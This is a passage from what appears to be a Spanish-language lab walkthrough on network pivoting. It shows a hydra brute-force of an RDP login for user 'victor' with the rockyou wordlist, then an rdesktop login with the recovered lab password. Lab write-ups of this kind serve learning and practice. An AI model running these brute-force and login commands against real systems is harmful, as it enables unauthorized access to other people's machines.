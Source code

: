 ```bash
Nmap done: 1 IP address (1 host up) scanned in 28.80 seconds                                                                 
```

Probamos hacer fuerza bruta con ```hydra``` sobre el rdp cuyo usuario es "victor":

```bash
┌─[root@kali]─[/home/user/pivoting]
└──╼ hydra -V -f -l victor -P /usr/share/wordlists/rockyou.txt rdp://localhost:3300    
```

Procedemos a iniciar sesión con ```rdesktop``` o ```xfreerdp```, ingresando las credenciales encontradas.

```bash
┌─[root@kali]─[/home/user/pivoting]
└──╼ rdesktop -u "victor" -p "pass@123" -d "INLANEFREIGHT" localhost:3300     
```

Finalmente obtenemos acceso a la máquina a través de pivoting.

[![rdpflagmeterpreterpiv](/images/rdpflagmeterpreterpiv.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/rdpflagmeterpreterpiv.png)
